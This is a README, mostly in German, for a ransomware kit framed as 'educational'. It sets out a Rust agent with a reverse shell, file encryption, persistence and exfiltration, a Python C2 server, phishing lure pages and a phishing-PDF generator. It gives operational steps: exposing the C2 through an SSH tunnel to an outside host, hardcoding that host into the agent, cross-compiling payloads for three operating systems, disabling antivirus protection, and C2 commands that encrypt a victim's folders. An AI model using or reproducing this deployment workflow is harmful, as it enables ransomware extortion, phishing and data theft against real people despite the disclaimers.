



# Rust Malware Simulation (Edu-Ransomware)


> **IMPORTANT LEGAL NOTICE & DISCLAIMER**
>
> This software was developed **exclusively for educational purposes** and security research.
>
> - Using this software on systems without explicit authorization is **illegal** and may result in criminal prosecution.
> - The author assumes **no liability** for damages caused by the use or misuse of this software.
> - **NEVER** run this malware on production systems. Always use an isolated Virtual Machine (VM).
>
> - Safety Feature: Pinggy Links expires after 60 min, leaving the ransomware powerless. Note that it will still create persistance after execution and should therefor still never be started locally.

---

## About the Project

Dieses Projekt demonstriert die Funktionsweise einer modernen Ransomware-Attacke unter Laborbedingungen. Es besteht aus folgenden Hauptkomponenten:

1. **Malware Agent (Rust):** Ein in **Rust** geschriebener Agent, der auf dem Zielsystem ausgeführt wird. Er baut eine Reverse-Shell auf, verschlüsselt Dateien atomar (AES-256-CTR) und etabliert Persistenz.
2. **C2 Server (Python):** Ein Command-and-Control Server, der mehrere Bots verwaltet, Befehle sendet und die Entschlüsselung steuert.
3. **Delivery Server (DbD-Site):** Ein Webserver, der Drive-by-Download Angriffe simuliert und OS-spezifische Payloads ausliefert.
4. **PDF Phishing:** Ein Generator für Phishing-PDFs, die das Opfer zum Download der Malware verleiten.

Ziel ist es die Funktionsweise von Ransomware zu erklären und zu demonstrieren.

---

## Projektstruktur

```
rust-mw/
├── malware_agent/          # Rust Ransomware Agent
│   └── src/
├── c2_server/              # Python C2 Server
│   ├── server.py
│   └── loot/               # Exfiltrierte Daten
├── delivery/
│   ├── DbD-Site/           # Drive-by-Download Webserver
│   │   ├── server.py
│   │   ├── public/         # HTML/CSS Phishing-Seiten
│   │   └── files/          # Payloads (werden durch build generiert)
│   └── pdf_phishing/       # PDF Generator
├── scripts/
└── run_pinggy.sh           # Startet Pinggy Tunnel
```

---

## Features

### 1. Angriffskette (Attack Chain)



### 2. Netzwerk-Kommunikation (Reverse Shell)

---

## Architecture

### Network Communication (Reverse Shell)

The client actively connects outward to the server, bypassing typical firewall rules that block incoming traffic.



### 3. Verschlüsselungsprozess (Atomic Encryption)
   Um Datenverlust bei Abstürzen zu verhindern, nutzt der Agent ein atomares Verfahren.



---

## Quick Start (Automatisierte Skripte)

Das Projekt enthält Shell-Skripte für einen vereinfachten Workflow:

```bash
# Terminal 1: Pinggy Tunnel starten (notiere Host & Port!)
./run_pinggy.sh

# Terminal 2: C2 Server starten
./run_c2.sh

# Terminal 3: Payloads kompilieren (nach Pinggy-Konfiguration!)
./build_payloads.sh

# Terminal 4: Delivery Server starten (optional)
./run_delivery.sh
```

### Workflow-Reihenfolge

1. **`./run_pinggy.sh`** - Startet TCP-Tunnel, gibt Host & Port aus
2. Konfiguriere `malware_agent/src/main.rs` mit den Pinggy-Daten
3. **`./build_payloads.sh`** - Kompiliert für Linux/Windows/Mac
4. **`./run_c2.sh`** - Startet den Command-and-Control Server
5. **`./run_delivery.sh`** - Startet den Drive-by-Download Server

---

## Manuelle Installation & Start

### C2 Server (Angreifer)

## Getting Started

1. **Server lokal starten**

```bash
cd c2_server
python3 server.py
```

The server listens on port **4444** by default.

2. **Server öffentlich verfügbar machen (Pinggy.io)**

Damit sich der Client aus einem anderen Netzwerk (oder VM) verbinden kann, wird ein öffentlicher Tunnel verwendet.

```bash
# Startet einen TCP Tunnel zu Ihrem lokalen Port 4444
ssh -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -p 443 -R0:localhost:4444 tcp@a.pinggy.io
```

**Notieren der Ausgabe!** Sie sieht etwa so aus:
```
tcp://ylruu-90-186-43-205.a.free.pinggy.link:39005
Host: ylruu-90-186-43-205.a.free.pinggy.link
Port: 39005
```

> **Hinweis:** Lassen Sie dieses Terminal offen, sonst bricht die Verbindung ab.

---

### Delivery Server (Drive-by-Download)

Der Delivery Server simuliert Phishing-Webseiten und liefert OS-spezifische Payloads aus.

1. **Server starten**

```bash
cd delivery/DbD-Site
python3 server.py
```

Der Server läuft auf Port 3000 und bietet folgende Endpunkte:
- `/game` - Fake Gaming Seite
- `/security` - Fake Security Alert
- `/prize` - Fake Gewinnspiel
- `/get_document` - Smart Download (erkennt OS automatisch)

2. **Phishing PDF generieren**

```bash
cd delivery/pdf_phishing
pip install -r requirements.txt
python3 generate_phishing_pdf.py
```

Das PDF enthält einen unscharfen "Rechnungs-Hintergrund" mit einem Link, der das Opfer zum Delivery Server führt.

---

## Malware Agent Kompilierung (Opfer)

Edit `malware_agent/src/main.rs` with your tunnel details:

### 1. Konfiguration anpassen

Öffnen Sie die Datei `malware_agent/src/main.rs` und tragen Sie die Daten aus dem Pinggy-Tunnel ein:

```Rust
// src/main.rs

// Tragen Sie hier die URL von Pinggy ein (OHNE tcp://)
const C2_IP: &str = "ylruu-90-186-43-205.a.free.pinggy.link";

// Tragen Sie hier den Port von Pinggy ein
const C2_PORT: u16 = 39005;
```

### 2. Kompilieren (Build)

**Option A: Automatisch (empfohlen)**
```bash
./build_payloads.sh
```
Dieses Skript kompiliert für Linux, Windows und Mac und kopiert die Payloads automatisch in den Delivery-Ordner.

**Option B: Manuell**
```bash
cd malware_agent
cargo build --release
```

### 3. Die Executable finden

Nach dem Kompilieren finden Sie die ausführbare Datei hier:
- Linux/Mac: `./target/release/rust_mw`
- Windows: `.\target\release\rust_mw.exe`

> **Achtung:** Windows Defender oder Antiviren-Programme werden diese Datei wahrscheinlich sofort löschen. Fügen Sie den Ordner zu den Ausnahmen hinzu oder deaktivieren Sie den Echtzeitschutz für die Demo.

### 4. Cross-Compilation

```bash
# Von Linux für Windows kompilieren
cd malware_agent
RUSTFLAGS="-C link-args=-static" cargo build --release --target x86_64-pc-windows-gnu
```

---

## Bedienung des C2 Servers

Sobald das Opfer die Payload ausführt, erscheint im Server-Terminal:

`[+] Neue Verbindung: ID 1 from ...`

Der Server verfügt über eine interaktive Shell. Hier sind die wichtigsten Befehle:

| Befehl | Beschreibung |
|--------|--------------|
| `sessions` | Listet alle aktuell verbundenen Opfer (Bots) auf |
| `interact <ID>` | Wechselt in den Modus, um einen spezifischen Bot zu steuern |
| `encrypt <ID> <PFAD>` | Verschlüsselt einen Ordner auf dem PC des Opfers |
| `decrypt <ID> [PFAD]` | Entschlüsselt Dateien. Ohne Pfad wird das Root-Verzeichnis genommen |
| `broadcast <CMD>` | Sendet einen Befehl an alle verbundenen Bots gleichzeitig |
| `help` | Zeigt das Hilfemenü an |
| `exit` | Beendet den Server |

### Beispiel-Workflow

```bash
# Verbindungen prüfen
C2> sessions

# Mit Opfer 1 interagieren
C2> interact 1

# Verschlüsselung starten (auf dem Desktop)
ID 1> encrypt /home/user/Desktop

# (Der Client generiert Schlüssel, verschlüsselt Dateien und zeigt die Erpresser-Nachricht)

# Entschlüsselung starten (nach "Zahlung")
ID 1> decrypt

# Zurück zum Hauptmenü
ID 1> background
```

---

## Prozess-Management

Um den Malware-Prozess auf dem Opfer-System zu beenden:

```bash
# Prozess finden
pgrep -a rust

# Prozess beenden
pkill -f rust
```

---

## Technische Features

### Malware Agent
- **Stealth Mode:** Unter Windows wird das Konsolenfenster versteckt (`windows_subsystem`). Unter Linux läuft der Prozess als Daemon im Hintergrund.
- **Persistenz:**
  - Windows: Registry Key (`HKCU\...\Run`)
  - Linux: Systemd Service (`~/.config/systemd/user/`)
- **Krypto:** AES-256-CTR via RustCrypto Crate. Der Key wird lokal in `rescue.key` gespeichert.
- **Daten-Exfiltration:** Gestohlene Dateien werden Base64-kodiert zum C2 Server übertragen.
- **Wallpaper-Änderung:** Nach der Verschlüsselung wird das Desktop-Hintergrundbild durch ein Ransomware-Bild ersetzt:
  - Das Bild (`ransom_wallpaper.jpg`) ist in die Binary eingebettet (`include_bytes!`)
  - Wird automatisch nach `base_path` extrahiert und als Wallpaper gesetzt
  - Nutzt die `wallpaper` Crate für plattformübergreifende Unterstützung
- **Ransom Note:** HTML-Datei (`README_DECRYPT.html`) wird erstellt und automatisch im Browser geöffnet

### Delivery Server
- **OS-Detection:** Erkennt automatisch Windows/Linux/Mac anhand des User-Agents
- **Phishing-Seiten:** Vorgefertigte Social Engineering Templates (Game, Security, Prize)
- **Smart Download:** Endpoint `/get_document` liefert passende Payload basierend auf OS

### PDF Phishing
- **Blurred Invoice:** Generiert ein unscharfes Rechnungsbild als Köder
- **Embedded Link:** Verlinkt auf den Delivery Server zum Download der Payload

---

## License

MIT License – See full license text below.

```
MIT License
Copyright (c) 2024 Tim Lukas

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
```

**ETHICAL USE CLAUSE:** By using this software, you agree to use it only for educational purposes or on systems you own or have explicit permission to test. The author is not responsible for any misuse.

---

## Support

For questions or issues:
- Open an issue in this repository
- Ensure you've read this README thoroughly before asking

> **Remember:** This is educational software. Do not use it for malicious purposes.
